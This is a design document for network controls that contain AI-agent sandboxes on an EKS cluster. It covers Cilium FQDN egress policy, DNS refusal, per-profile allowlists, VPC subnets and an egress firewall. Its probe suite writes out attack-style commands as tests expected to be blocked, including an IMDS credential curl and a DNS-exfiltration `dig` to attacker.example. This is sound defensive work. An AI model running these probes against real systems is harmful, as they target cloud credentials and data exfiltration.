

# Sandbox Network Controls

**Workstream:** WS-02 (WS-09 reviews) · **Contracts:** C-ARCH 2.0.0 (exec cluster in its own AWS account; PrivateLink to core services including `replicant-gateway-shim`) · **Constraints:** D-21 (default-deny egress; registry allowlists need a mirror/proxy or FQDN-aware policy; capability-based injection containment), D-11, D-13, ADR-007, ADR-011
**ADR:** [ADR-02-005](adr/02-005-egress-cilium-fqdn.md) · **Policy schema:** [schemas/policy-network-profiles.schema.json](schemas/policy-network-profiles.schema.json) · **Manifests:** [manifests/network-policies.yaml](manifests/network-policies.yaml), [manifests/cilium-values.yaml](manifests/cilium-values.yaml)

## Purpose

Make a fully prompt-injected agent with a shell unable to reach anything except the services its
run needs: the AI gateway, memory and context MCP servers, the Runner sandbox listener, the
repo-mirror, the run's S3 prefixes (through the S3 gateway endpoint), the OTLP collector, and the
package mirror. C-ARCH §2 invariant 2 does not yet list the OTLP collector; CCR-02-11 adds it (R1-065). No instance metadata, no Kubernetes API, no other tenant's sandboxes, no node
services, and no arbitrary DNS.

## Decisions summary

| # | Decision | Ref |
|---|---|---|
| N-1 | **Cilium 1.20 as the only CNI in the exec cluster (AWS ENI IPAM mode)** with `kubeProxyReplacement=true` and `socketLB.hostNamespaceOnly=true` (required for Kata and gVisor service traffic). Not CNI chaining with the VPC CNI, where Cilium lists "Layer 7 policy" as limited, and FQDN policy is enforced through the L7 DNS proxy [verified: https://docs.cilium.io/en/stable/installation/cni-chaining-aws-cni/ ; https://docs.cilium.io/en/stable/network/kubernetes/kubeproxy-free/, 2026-10-24] | ADR-02-005 |
| N-2 | **FQDN egress policy (Cilium `toFQDNs` + DNS proxy) is the enforcement point**; there is no general-purpose forward proxy. Package installs go to the internal package mirror only (D-21 "mirror/proxy **or** FQDN-aware policy": we use both a mirror and FQDN policy) | ADR-02-005 |
| N-3 | Two layers of default deny: WS-09's `CiliumClusterwideNetworkPolicy` `sbx-baseline-deny` on namespaces labelled `replicant.example.com/zone=sandbox` (default deny both ways, `egressDeny`/`ingressDeny` for IMDS, Pod Identity agent, VPC resolver, kube-apiserver, host, remote nodes), plus a per-run `CiliumNetworkPolicy` `ar-<body>-egress` rendered from the bundle's `network_profiles` policy | C-CRD §6 |
| N-4 | **DNS:** the per-run policy's `rules.dns` patterns are exactly the allowed names; the DNS proxy answers anything else with `REFUSED` (agent flag `--tofqdns-dns-reject-response-code`, default `refused`) [verified: Cilium v1.20.4 `Documentation/cmdref/cilium-agent.md`, 2026-10-24] | §4 |
| N-5 | **AWS layer:** sandbox node security group egress allows only the VPC endpoints, the internal NLBs, the package mirror, and the AI gateway; IMDSv2 required with hop limit 1 (Karpenter default) | §6 |
| N-7 | **WS-02 owns the exec VPC subnets, route tables and the egress firewall (orchestrator ruling R1-240):** sandbox subnets have no default route; only the repo-mirror and exec-system subnets route to the central egress VPC, whose AWS Network Firewall allows per-source domain lists (repo-mirror → GitHub; exec-system → the core EKS OIDC issuer) | §6.1 |
| N-6 | No ingress to sandboxes at all (steering is pulled, ADR-010). QA sidecars talk to the app over `localhost` inside the Pod (one network namespace, one VM under Kata), which policy does not affect | §7 |



---

## 1. Cilium installation (exec cluster)

[manifests/cilium-values.yaml](manifests/cilium-values.yaml) (Helm chart `cilium/cilium` 1.20.4):

| Value | Setting | Why |
|---|---|---|
| `eni.enabled` | `true` | EKS install path documented by Cilium; pods get routable ENI IPs [verified: https://docs.cilium.io/en/stable/installation/k8s-install-helm/, 2026-10-24] |
| `ipam.mode` | `eni` | AWS ENI IPAM |
| `routingMode` | `native` | ENI direct routing |
| `kubeProxyReplacement` | `true` | eBPF service LB |
| `socketLB.hostNamespaceOnly` | `true` | socket LB "is ineffective (e.g., KubeVirt, Kata Containers, gVisor)"; falls back to the tc LB at the veth (runtime-evaluation.md F-17) |
| `policyEnforcementMode` | `default` plus CCNP `enableDefaultDeny` on sandbox namespaces | sandboxes are default-deny; system namespaces keep explicit policies |
| `hostFirewall.enabled` | `true` | node-level policy on sandbox nodes (WS-09 writes host rules) |
| `dnsProxy` / `tofqdns` | `--tofqdns-dns-reject-response-code=refused`, `--tofqdns-min-ttl=0` (honor TTLs), `--tofqdns-endpoint-max-ip-per-hostname=1000` (default) | §4 |
| `hubble.enabled` | `true`; `hubble.export.static` writes DROPPED/ERROR flows (policy denials are DROPPED with a policy drop reason) to `/var/run/cilium/hubble/events.log`, which WS-08's node-logs.alloy tails (XD-08-16, R1-043); values `export.static.{enabled,filePath,allowList,fieldMask}` exist in the 1.20.4 chart [verified: https://github.com/cilium/cilium/blob/v1.20.4/install/kubernetes/cilium/values.yaml, 2026-10-24] | egress audit, denied-flow alerts |
| aws-node DaemonSet | patched with `nodeSelector io.cilium/aws-node-enabled: "true"` so it never runs (Cilium manages ENIs) [verified: same install page] | — |
| Taint | sandbox NodePools carry startup taint `node.cilium.io/agent-not-ready=true:NoExecute` [verified: same install page] | no sandbox starts before policy enforcement is live |

## 2. Baseline policy (all sandbox namespaces)

The baseline is **WS-09's** `CiliumClusterwideNetworkPolicy` `sbx-baseline-deny` (and
`sbx-no-east-west`) in [09-security/policies/network/ccnp-sandbox-baseline.yaml](../09-security/policies/network/ccnp-sandbox-baseline.yaml),
deployed unchanged by the `replicant-exec` chart. WS-02 keeps no copy (R1-031). It selects every
endpoint in namespaces labelled `replicant.example.com/zone=sandbox`, enables default deny for
ingress and egress, and hard-denies IMDS (169.254.0.0/16), the Pod Identity agent, the VPC resolver,
the Kubernetes API, host, remote nodes, and every other cluster endpoint. Deny rules take
precedence over the per-run allows below, so a mis-rendered per-run policy cannot open these paths.

## 3. Per-run policy `ar-<body>-egress`

Rendered by the controller from the bundle's `network_profiles` policy entry named in
`spec.networkProfile`, before the Pod is created (controller.md §4). Example for
`coding-default` in `prod`:

```yaml
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: ar-gj3h3ep3phjfs9e23v768zrca5-egress
  namespace: sbx-payments
  labels:
    app.kubernetes.io/managed-by: agentrun-controller
    replicant.example.com/network-profile: coding-default
    replicant.example.com/tenant: payments
    replicant.example.com/job-id: job_01m5p7x7r0bt69j0h0fbxepw90
    replicant.example.com/run-id: run_gj3h3ep3phjfs9e23v768zrca5
spec:
  endpointSelector:
    matchLabels:
      replicant.example.com/run-id: run_gj3h3ep3phjfs9e23v768zrca5
  egress:
    - toEndpoints:
        - matchLabels:
            k8s:io.kubernetes.pod.namespace: kube-system
            k8s-app: kube-dns
      toPorts:
        - ports:
            - {port: "53", protocol: UDP}
            - {port: "53", protocol: TCP}
          rules:
            dns:
              - matchName: ai-gateway.prod.replicant.internal
              - matchName: memory-mcp.prod.replicant.internal
              - matchName: context-mcp.prod.replicant.internal
              - matchName: runner-sandbox.prod.replicant.internal
              - matchName: repo-mirror.prod.replicant.internal
              - matchName: otel-sandbox.prod.replicant.internal
              - matchName: acme-replicant-prod-artifacts.s3.us-east-1.amazonaws.com
              - matchName: acme-replicant-prod-transcripts.s3.us-east-1.amazonaws.com
              - matchName: acme-replicant-prod-session.s3.us-east-1.amazonaws.com
              - matchName: artifactory.acme.internal
    - toFQDNs:
        - matchName: ai-gateway.prod.replicant.internal
        - matchName: memory-mcp.prod.replicant.internal
        - matchName: context-mcp.prod.replicant.internal
        - matchName: runner-sandbox.prod.replicant.internal
        - matchName: acme-replicant-prod-artifacts.s3.us-east-1.amazonaws.com
        - matchName: acme-replicant-prod-transcripts.s3.us-east-1.amazonaws.com
        - matchName: acme-replicant-prod-session.s3.us-east-1.amazonaws.com
        - matchName: artifactory.acme.internal
      toPorts:
        - ports:
            - {port: "443", protocol: TCP}
    - toEndpoints:
        - matchLabels:
            k8s:io.kubernetes.pod.namespace: replicant-observability
            app.kubernetes.io/name: alloy-sandbox-otlp
      toPorts:
        - ports:
            - {port: "4318", protocol: TCP}
    - toEndpoints:
        - matchLabels:
            k8s:io.kubernetes.pod.namespace: replicant-mirror
            app.kubernetes.io/name: repo-mirror
      toPorts:
        - ports:
            - {port: "8443", protocol: TCP}
```

Rules:
- `toFQDNs` matches names learned through the DNS proxy, which is why every allowed name also
  appears under `rules.dns` ("`rules: dns` instructs Cilium to inspect and allow DNS lookups
  matching specified patterns") [verified: https://docs.cilium.io/en/stable/security/dns/, 2026-10-24].
- Only `matchName` is used in production profiles; `matchPattern` (where `*.` requires one
  subdomain) is permitted by the schema only for internal zones (`*.replicant.internal`).
- S3 virtual-hosted names are listed per bucket; path-style `s3.us-east-1.amazonaws.com` is not
  allowed, so a sandbox cannot address other buckets by path even with valid credentials (S3
  credentials are already prefix-scoped; this removes the network path to foreign buckets).
- **Sandbox OTLP (R1-041):** WS-08's `alloy-sandbox-otlp` (namespace `replicant-observability`, exec
  cluster) at `https://otel-sandbox.<env>.replicant.internal:4318`, TLS with the Replicant CA bundle
  (ConfigMap `replicant-ca-bundle` mounted at `/etc/replicant-ca/ca.crt`, `OTEL_EXPORTER_OTLP_CERTIFICATE`).
  The name is answered in-cluster by a CoreDNS `rewrite name exact otel-sandbox.<env>.replicant.internal
  alloy-sandbox-otlp.replicant-observability.svc.cluster.local` rule and the policy selects the backend
  pods by `toEndpoints` (as for repo-mirror). Traffic goes pod → Service → backend through Cilium's
  tc load balancer with **no SNAT** (native routing, the source is the sandbox pod IP), which WS-08's
  connection-based attribution needs (ADR-08-004). WS-09's per-run CNP uses `toFQDNs` for this name;
  XD-FIX-R1-041 aligns it to `toEndpoints`.
- `repo-mirror` and the exec-cluster Alloy OTLP receiver are in-cluster and selected by
  `toEndpoints`; with `socketLB.hostNamespaceOnly=true` the tc LB translates the ClusterIP and policy
  applies to the backend endpoints. The name `repo-mirror.<env>.replicant.internal` (used by WS-03's
  bootstrap) is answered in-cluster by a CoreDNS `rewrite name exact repo-mirror.prod.replicant.internal
  repo-mirror.replicant-mirror.svc.cluster.local` rule, so it never leaves the cluster.
- `ai-gateway.<env>.replicant.internal` is the `replicant-gateway-shim` in core (accepted CCR-03-03),
  reached through a PrivateLink interface endpoint in the exec VPC (accepted CCR-09-07); sandboxes
  never reach the enterprise gateway directly. The same holds for memory-mcp, context-mcp, and the
  orchestration-side paths: every core ↔ exec path is a PrivateLink endpoint service whose private
  DNS name is the `*.replicant.internal` name in the profiles.

### 3.1 Fallback rule 6: in-cluster targets through internal NLBs (R2-037)

Kata and gVisor sandboxes reach in-cluster Services only through Cilium's tc load balancer at the
pod veth (`socketLB.hostNamespaceOnly=true`, runtime-evaluation.md F-17); an AWS sample reports
ClusterIPs unreachable from Kata on the VPC CNI (F-18). B-NET-01 probe 38 tests it, and **B-NET-01 is
a gate on the Kata default** (runtime-evaluation.md §8.4). If probe 38 fails under Kata:

| Step | Change |
|---|---|
| 1 | Expose `repo-mirror` and `alloy-sandbox-otlp` each through an internal NLB (`aws-load-balancer-type: external`, `nlb-target-type: ip`, scheme `internal`) in the exec VPC, with Route 53 private records `repo-mirror.<env>.replicant.internal` and `otel-sandbox.<env>.replicant.internal`, and remove the CoreDNS rewrites |
| 2 | Render both destinations as `toFQDNs` (`matchName`, ports 8443/4318) instead of `toEndpoints`, exactly like the gateway and MCP endpoints |
| 3 | Re-run B-NET-01 and B-START-01. The NLB target groups use IP targets with **client IP preservation off** (XD-FIX-R1-211), so source-IP attribution is lost behind the NLB; WS-08 attributes repo-mirror and OTLP traffic by the run token's `run_id` claim logged by the server (`attribution=token`, XD-FIX-R2-037) |

The rule is a configuration change in the `replicant-exec` chart (`networking.inClusterTargetsViaNLB:
true`) and the `network_profiles` policy (a new version), and needs no code change.

## 4. DNS controls

| Control | Mechanism |
|---|---|
| Only allowed names resolve | DNS proxy rules from the profile; others get `REFUSED` (N-4) |
| No direct resolvers | port 53 is allowed only to kube-dns endpoints; DoH/DoT endpoints are not in any FQDN list; port 853 is never allowed |
| DNS exfiltration | arbitrary-label queries (`<data>.attacker.example`) are refused at the proxy; the only resolvable zones are replicant-controlled internal names, AWS S3 bucket names, and the package mirror |
| `ndots` | Pod `dnsConfig ndots: 1` reduces search-path queries |
| Availability | the in-agent DNS proxy restarts with the Cilium agent; Cilium's standalone (HA) DNS proxy is an "alpha feature" [verified: https://docs.cilium.io/en/stable/security/dns/, 2026-10-24], so v1 accepts brief DNS failures during agent restarts (sandboxes retry; Cilium agent upgrades drain sandbox nodes first) |

## 5. Network profiles (policy type `network_profiles`, owned by WS-02 with WS-09)

Schema: [schemas/policy-network-profiles.schema.json](schemas/policy-network-profiles.schema.json);
example: [schemas/examples/policy-network-profiles.example.yaml](schemas/examples/policy-network-profiles.example.yaml).

The catalogue is exactly WS-09's eight profiles ([agent-capabilities.md §3](../09-security/agent-capabilities.md),
authoritative; XD-FIX-R1-213). Always-on for every profile: DNS proxy, `runner-sandbox` (443), the
OTLP endpoint (4318), and the S3 `artifacts` and `transcripts` run prefixes. `eval-isolated` is
withdrawn; `eval-*` profiles are reserved for tenant `replicant-eval` by the binding VAP.

| Profile | Workload classes | Destinations beyond the always-on set |
|---|---|---|
| `coding-default` | `coding` | S3 `session` prefix, AI gateway, memory-mcp, context-mcp, repo-mirror, package mirror (language repos) |
| `review-readonly` | `review` | AI gateway, context-mcp, repo-mirror, package mirror (language repos; reviewers run tests). **No memory-mcp**, no `session` prefix |
| `qa-with-mirror` | `qa_build` | repo-mirror, package mirror (language repos **and** container-image and Playwright repos on `artifactory.acme.internal:443`; BuildKit mirrors `docker.io`, `ghcr.io`, `gcr.io`, `quay.io`, `mcr.microsoft.com` to `artifactory.acme.internal/docker-virtual`, path style, XD-FIX-R1-115); AI gateway only when the QA agent tasks are on. No ECR endpoint is reachable from the sandbox. If B-BUILD-03 shows BuildKit mis-handles a path-prefixed mirror, Artifactory exposes per-registry subdomains and the profile gains exactly five exact `matchName` entries on 443: `dockerhub.artifactory.acme.internal`, `ghcr.artifactory.acme.internal`, `gcr.artifactory.acme.internal`, `quay.artifactory.acme.internal`, `mcr.artifactory.acme.internal`. **No `matchPattern: "*.artifactory.acme.internal"`**: a wildcard lets a sandbox send arbitrary labels to the corporate resolver (DNS exfiltration, §4); XD-W3-R1V-097 |
| `utility-minimal` | `utility` | AI gateway |
| `takeover` | `utility` (role `takeover`) | S3 `session` prefix, repo-mirror (`prepare` restores the checkout before the archive is built). No gateway, no package mirror |
| `eval-coding` | `coding`, `review`, `qa_build` (tenant `replicant-eval`) | as `coding-default` (memory-mcp and context-mcp serve eval fixtures); for QA cases also the container-image repos; repo-mirror serves only eval repositories (`git.eval…`, fast-path.md §4.3) |
| `eval-scoring` | `qa_build`, `utility` (tenant `replicant-eval`) | repo-mirror (eval repositories), package mirror (language, container-image and Playwright repos). **No AI gateway** (deterministic scoring) |
| `eval-snapshot` | `utility` (tenant `replicant-eval`, role `eval`) | repo-mirror only. This is the one profile under which repo-mirror serves **production** hosts to a `replicant-eval` token, and only when the token's role is `eval` (XD-FIX-R1-134, fast-path.md §4.3). No gateway, no package mirror |

When `replicant-curation-proxy` is deployed (XD-FIX-R2-041, fast-path.md §5), every
`artifactory.acme.internal` entry above becomes `pkg.<env>.replicant.internal` (PrivateLink
endpoint in the exec VPC) through a new `network_profiles` policy version; nothing else changes.

The controller's policy sync publishes the promoted profile names to ConfigMap
`replicant-runner/replicant-agentrun-binding-params` (key `networkProfiles`), which WS-09's
`replicant-agentrun-binding` VAP uses to refuse unknown profiles (controller.md §2a).

The controller resolves `{env}`, `{region}`, and `{org}` placeholders in profile destinations from
its configuration; tenants can only narrow profiles in their layer (ADR-013 tightening check:
destinations ⊆ base).

## 6. AWS and node-level controls

| Control | Setting |
|---|---|
| IMDS | IMDSv2 required, `httpPutResponseHopLimit: 1` (Karpenter default, runtime-evaluation.md A-9), plus CCNP `egressDeny` |
| Node security group (sandbox pools) | egress: TCP 443 to the PrivateLink interface endpoint SGs (ai-gateway shim, memory-mcp, context-mcp, package mirror) and the runner-sandbox NLB, S3 via the gateway endpoint prefix list `pl-…`, TCP/UDP 53 to the VPC resolver (CoreDNS forwards), Cilium/ENI control traffic to the cluster SG. No `0.0.0.0/0` |
| No default route for sandbox subnets | sandbox node subnets have no default route and no NAT (WS-09, CCR-09-07: exec cluster in its own AWS account `replicant-<env>-exec`); reachable destinations are VPC endpoints, PrivateLink endpoints, and the exec VPC itself |
| repo-mirror egress | the only exec-side path to GitHub (and to Forgejo internally): through the egress firewall (§6.1) with a domain allowlist (`github.com`, `api.github.com`, `codeload.github.com`, and the GitHub Enterprise host if used) from the mirror's own subnets; sandbox subnets have no route to it (XD-09-04) |
| runner-api egress (exec-system nodes, XD-FIX-R1-211) | `grants.<env>.replicant.internal:443` (PrivateLink; core run-grant JWKS and revocation list), `oidc.eks.us-east-1.amazonaws.com:443` (core EKS OIDC issuer JWKS for caller verification) through the egress firewall (exec-system rule group, §6.1), KMS and STS interface endpoints, S3 (gateway endpoint) to exactly the buckets of runner-service.md §7.4: `<org>-replicant-<env>-artifacts`, `-transcripts`, `-registry` and `-ops` (`toFQDNs` `matchName` `<bucket>.s3.us-east-1.amazonaws.com`, and the same four buckets in the exec-system S3 gateway-endpoint policy; XD-W3-R1V-002), and the EKS Pod Identity agent `169.254.170.23:80` / `[fd00:ec2::23]:80`. run-notifier and agentrun-controller also reach the Pod Identity agent. WS-09's `cnp-exec-system.yaml` encodes these |
| Kubernetes API | no SA token in pods (`automountServiceAccountToken: false`), CCNP denies `kube-apiserver`; the EKS API endpoint is private |
| Kubelet / node ports | Cilium host firewall on sandbox nodes denies pod-to-host except DNS-proxy and health paths (WS-09 writes the host policy) |

### 6.1 Exec VPC subnets, routes, and egress firewall (R1-240, XD-FIX-R1-211)

WS-02 owns this layer (orchestrator ruling on R1-240; WS-10 supplies only data-plane resources, WS-09
the exec KMS keys). Exec VPC `10.41.0.0/16` in account `replicant-<env>-exec`, three AZs
(`us-east-1a/b/c`). Each `/24` group below is split into three `/26` (one per AZ) unless noted.

| Subnet group | CIDR (per AZ) | Holds | Route table |
|---|---|---|---|
| `exec-endpoints` | `10.41.4.0/24` (`/26` × 3) | interface VPC endpoints (KMS, STS, ECR api/dkr, EKS, CloudWatch Logs, S3 interface for cross-account reads) and the PrivateLink consumer endpoints to core (`ai-gateway`, `memory-mcp`, `context-mcp`, `grants`, Temporal frontend) | local only |
| `exec-nlb-orchestration` | `10.41.8.0/24` | the PrivateLink endpoint-service NLB in front of runner-api `:8443` | local only |
| `exec-nlb-sandbox` | `10.41.9.0/24` | internal NLB for runner-api `:9443` (`runner-sandbox.<env>.replicant.internal`) | local only |
| `exec-nlb-incluster` | `10.41.10.0/24` | internal NLBs for repo-mirror and `alloy-sandbox-otlp`, only under fallback rule 6 (§3.1) | local only |
| `exec-mirror` | `10.41.12.0/22` (`10.41.12.0/24`, `.13.0/24`, `.14.0/24`) | nodes and pod ENIs of the `exec-mirror` node pool (repo-mirror only) | local; `0.0.0.0/0` → Transit Gateway attachment → egress VPC |
| `exec-system` | `10.41.16.0/20` (`/22` per AZ) | exec-system nodes and pods (runner-api, controller, notifier, Alloy, Kyverno, Cilium operator) | local; `0.0.0.0/0` → Transit Gateway → egress VPC |
| `exec-sandbox` | `10.41.64.0/18` (`/20` per AZ: `10.41.64.0/20`, `10.41.80.0/20`, `10.41.96.0/20`) | sandbox nodes and sandbox pod ENIs (Cilium ENI IPAM) | **local only: no default route, no NAT, no TGW route** |

S3 is reached through a gateway endpoint associated with the `exec-system`, `exec-mirror` and
`exec-sandbox` route tables (prefix-list routes), with an endpoint policy limited to Replicant
buckets. Cilium places pod ENIs in the node's subnet group through the NodeClass subnet selector tags
`replicant.example.com/subnet-group` (`exec-sandbox`, `exec-system`, `exec-mirror`).

**Egress VPC and firewall.** `replicant-<env>-egress` (`10.43.0.0/24`, same account, attached to the
exec Transit Gateway) holds AWS Network Firewall `replicant-<env>-egress` (one endpoint per AZ) and
NAT gateways. Inbound TGW route table: `exec-mirror` and `exec-system` attachments only; the
`exec-sandbox` CIDRs are not propagated, so even a mis-routed sandbox packet has no path. Firewall
policy: **strict rule order**, stateless default `aws:forward_to_sfe`, stateful default actions
`aws:drop_established` and `aws:alert_established`, logs (alert and flow) to the exec log bucket.
Stateful domain-list rule groups, each with its own `HOME_NET` rule variable so a domain is allowed
only from its source subnets ([verified: https://docs.aws.amazon.com/network-firewall/latest/developerguide/stateful-rule-groups-domain-names.html, 2026-10-24]):

| Rule group | `HOME_NET` | Targets (`TLS_SNI`, `HTTP_HOST`; `GeneratedRulesType: ALLOWLIST`) |
|---|---|---|
| `allow-repo-mirror-github` | `10.41.12.0/22` | `github.com`, `api.github.com`, `codeload.github.com`, and the GitHub Enterprise host if used |
| `allow-exec-system-oidc` | `10.41.16.0/20` | `oidc.eks.us-east-1.amazonaws.com` |

Everything else from the exec VPC is dropped and alerted. Any new destination is a reviewed change
to these rule groups (WS-09 approves). Rendered template:
[manifests/exec-egress-firewall.yaml](manifests/exec-egress-firewall.yaml).

## 7. QA sidecars and egress

QA dependencies (Postgres, Kafka, contract stubs) run as native sidecars in the same Pod (WS-05),
so app ↔ dependency traffic is loopback and never leaves the Pod network namespace. Headless
Playwright navigates `http://localhost:<port>` only; profile `qa-with-mirror` contains no public
hosts. If a codebase needs a public test endpoint, that requires a new profile version (bundle
change, WS-09 approval) rather than a runtime exception.

## 8. Failure behavior

| Failure | Effect | Handling |
|---|---|---|
| Per-run CNP not yet applied when the Pod starts | Pod starts under the baseline (deny all except nothing) and cannot fetch; prep fails `RepoFetchFailed` | The controller creates the CNP **before** the Pod and waits until Cilium reports it realized (`CiliumNetworkPolicy.status` per node, or 2 s) |
| Cilium agent down on a node | existing datapath keeps enforcing; new DNS lookups fail | node marked unschedulable by the Cilium readiness taint on restart; runs retry |
| DNS TTL churn on S3 names | `toFQDNs` tracks IPs per lookup (default up to 1,000 per name per endpoint) | default limits suffice |
| Agent tries IMDS/API/other tenants | dropped; Hubble flow `policy-verdict: DENIED` | alert `ReplicantSandboxDeniedEgress` with `run_id` in structured metadata (not label); WS-09 decides auto-cancel |

## 9. Verification probes (benchmark gate B-NET-01)

Run from inside a sandbox of each runtime with each profile. Expected result in brackets.

| # | Probe | Expect |
|---|---|---|
| 1–3 | `curl` IMDS v1/v2 token PUT, IPv6 IMDS | blocked |
| 4 | Pod Identity agent `169.254.170.23` | blocked |
| 5–6 | `kubernetes.default.svc:443`, EKS private endpoint IP | blocked |
| 7 | another sandbox Pod IP (same tenant) | blocked |
| 8 | another tenant's sandbox Pod IP | blocked |
| 9 | node IP :10250 (kubelet) | blocked |
| 10 | node IP :22 | blocked |
| 11 | runner-api orchestration NLB `runner.prod.replicant.internal` | blocked (name REFUSED and SG) |
| 12 | Temporal frontend NLB | blocked |
| 13 | `dig example.com` | REFUSED |
| 14 | `dig $(head -c 30 /dev/urandom | base32).attacker.example` | REFUSED |
| 15 | `dig @1.1.1.1 example.com` | blocked |
| 16 | DoH `https://1.1.1.1/dns-query` | blocked |
| 17 | `curl https://registry.npmjs.org` | blocked |
| 18 | `curl https://github.com` | blocked |
| 19 | `curl https://s3.us-east-1.amazonaws.com/other-bucket/x` (path style) | blocked |
| 20 | `curl https://other-bucket.s3.us-east-1.amazonaws.com` | blocked (name REFUSED) |
| 21 | raw IP of an S3 endpoint learned elsewhere | blocked (not learned via this endpoint's DNS) |
| 22 | UDP 443 (QUIC) to the gateway | blocked (TCP only) |
| 23 | ICMP to the gateway | blocked |
| 24 | repo-mirror fetch of a repo **not** in `repo_ids` | HTTP 403 |
| 25 | runner-sandbox `token:refresh` with another run's token | 401 |
| 26 | memory-mcp with a token whose `aud` lacks `memory-mcp` | 401 |
| 27–33 | allowed (through `replicant-agentd` for gateway/MCP/mirror): gateway shim, memory-mcp, context-mcp, runner-sandbox, OTLP, repo-mirror own repo, package mirror | succeed |
| 33a | a token for audience `memory-mcp` presented to repo-mirror and the gateway shim (WS-09 RT-03) | 401 |
| 33b | token minted for a repo outside the run grant (WS-09 RT-09) | rejected by mirror and MCP |
| 34–36 | allowed: S3 PUT to own run prefix in each of the three buckets | succeed |
| 37 | S3 PUT to another run's prefix (with own credentials) | 403 |
| 38 | Service ClusterIP of repo-mirror under Kata and gVisor | succeeds (F-17/F-18) |
| 39 | `review-readonly` profile → package mirror | succeeds (reviewers run tests, XD-FIX-R1-213) |
| 39a | `review-readonly` profile → memory-mcp | blocked |
| 39b | `takeover` profile → repo-mirror own repo; → AI gateway | succeeds; blocked |
| 39c | `eval-snapshot` token with role ≠ `eval`, or tenant ≠ `replicant-eval`, fetching a production repo from repo-mirror | HTTP 403 |
| 40 | `utility-minimal` → memory-mcp | blocked |

## Open questions

| Question | Who decides | Options | Recommendation |
|---|---|---|---|
| Where does the AI gateway live (FQDN in or out of VPC) | WS-03 / platform owner | internal NLB / external enterprise endpoint | Internal NLB or VPC endpoint service; either is one FQDN in profiles |
| Package-mirror exfiltration via request paths | WS-09 | accept / restrict remote repos to curated upstreams / quarantine new packages | Curated remotes only; residual accepted (an injected agent can encode data in package names it requests) |
| Auto-cancel on repeated denied egress | WS-09 | alert only / cancel after N | Alert in v1; cancel policy after observing false-positive rate |

## Risks

- The DNS proxy is a single point per node; agent restarts drop lookups briefly.
- FQDN policies depend on clients resolving through kube-dns; hard-coded IPs are blocked by
  design, which can break unusual tools (documented in WS-03 environment guidance).

## Interfaces consumed / provided

- **Consumed:** C-CRD `spec.networkProfile`, ADR-007 NLB paths, ADR-011 mirror, WS-09 host policy and
  profile catalogue (agent-capabilities.md §3).
- **Provided:** `network_profiles` policy schema, CNP renderer contract, Cilium values, exec VPC
  subnets, routes and egress firewall (§6.1), probe suite (to WS-11 SEC-EGRESS-* and WS-09).
